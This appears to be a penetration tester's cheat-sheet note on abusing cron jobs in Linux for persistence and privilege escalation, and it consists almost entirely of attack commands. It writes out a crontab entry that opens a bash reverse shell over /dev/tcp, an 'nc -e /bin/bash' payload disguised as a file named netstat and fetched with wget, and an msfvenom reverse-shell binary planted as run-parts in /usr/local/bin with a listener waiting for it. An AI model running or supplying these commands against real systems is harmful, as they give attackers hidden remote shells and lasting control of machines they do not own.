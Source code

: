 #### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
mousepad netstat
```

```mousepad - kali
nc $KALI 443 -e /bin/bash    
```

![[Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[1._rlwrap]]

#### Example 2

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://192.168.49.229:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.

